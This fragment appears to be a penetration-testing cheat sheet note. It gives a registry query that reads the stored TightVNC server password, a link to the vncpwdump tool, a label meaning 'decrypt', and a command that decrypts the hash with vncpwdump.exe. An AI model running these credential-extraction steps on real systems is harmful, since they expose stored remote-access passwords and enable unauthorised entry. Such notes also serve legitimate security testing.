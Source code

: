 	>reg query HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server /v password
	http://www.cqure.net/wp/tools/password-recovery/vncpwdump/
	解密
	>vncpwdump.exe -k hash